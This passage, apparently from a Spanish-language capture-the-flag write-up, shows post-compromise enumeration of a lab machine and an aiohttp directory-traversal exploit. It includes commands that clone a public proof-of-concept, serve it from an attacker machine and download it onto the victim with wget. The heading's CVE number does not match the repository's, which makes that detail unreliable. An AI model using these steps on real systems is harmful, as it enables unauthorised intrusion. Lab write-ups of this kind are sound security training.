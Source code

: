 ~~~ bash
app@chemistry:~$ ss -tunl
Netid  State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process  
udp    UNCONN  0       0        127.0.0.53%lo:53          0.0.0.0:*             
udp    UNCONN  0       0              0.0.0.0:68          0.0.0.0:*             
tcp    LISTEN  0       128            0.0.0.0:22          0.0.0.0:*             
tcp    LISTEN  0       128            0.0.0.0:5000        0.0.0.0:*             
tcp    LISTEN  0       128          127.0.0.1:8080        0.0.0.0:*             
tcp    LISTEN  0       4096     127.0.0.53%lo:53          0.0.0.0:*             
tcp    LISTEN  0       128               [::]:22             [::]:* 
~~~

Vemos que el puerto `8080` se encuentra abierto internamente, o sea, solo lo podemos ver desde la máquina víctima, veamos qué contiene

~~~ bash
curl -I localhost:8080
~~~

![image-center](/assets/images/posts/chemistry-aiohttp.png){: .align-center}

Vemos que pudimos tramitar una solicitud HTTP hacia el puerto `8080`


## Python `aiohttp` Directory Traversal (CVE-2024-23344)

Si buscamos sobre  la versión de `aiohttp` que recibimos en la respuesta de la solicitud, podemos encontrar que esta versión aparentemente es vulnerable a Directory Traversal

~~~ bash
git clone https://github.com/z3rObyte/CVE-2024-23334-PoC.git
python3 -m http.server 80
~~~

Desde la máquina víctima ejecutaremos el comando `wget` para descargar el recurso que estamos compartiendo en la red

~~~ bash
wget -r http://10.10.14.162/exploit
~~~

![image-center](/assets/images/posts/chemistry-wget.png){: .align-center}

